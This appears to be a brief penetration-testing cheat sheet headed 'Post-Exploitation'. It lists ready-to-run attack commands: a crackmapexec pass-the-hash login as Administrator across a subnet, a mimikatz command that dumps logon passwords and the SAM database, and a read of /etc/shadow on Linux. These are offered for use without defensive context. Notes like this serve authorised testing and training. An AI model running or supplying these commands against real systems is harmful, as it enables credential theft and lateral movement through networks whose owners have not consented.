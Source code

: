# Post-Exploitation

## Windows

```
# pass the hash
crackmapexec smb --local-auth 10.11.1.0/24 -H ee0c207898a5bccc01f38115019ca2fb -u Administrator

# dump creds
mimi.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## Linux

```
cat /etc/shadow
```
